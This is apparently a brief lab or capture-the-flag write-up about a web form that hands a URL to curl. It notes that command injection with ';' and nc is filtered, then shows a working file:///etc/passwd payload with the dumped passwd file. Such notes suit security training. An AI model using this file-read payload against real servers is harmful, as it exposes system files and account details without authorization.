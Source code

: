 Does request, but does not execute php


formurl=test&submit=Go


curl: (6) Could not resolve host: test


## command injection

; is not a good thing to put in a URLnc is not a good thing to put in a URL

https://gtfobins.github.io/gtfobins/curl/#file-read

## Arbitrary file read

formurl=file:///etc/passwd&submit=Go


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
maria:x:1000:1000:maria,,,:/home/maria:/bin/bash
mysql:x:110:117:MySQL Server,,,:/nonexistent:/bin/false
lightdm:x:111:118:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:112:121:PulseAudio daemon,,,:/var/run/pulse:/bin/false
sshd:x:113:65534::/var/run/sshd:/usr/sbin/nologin

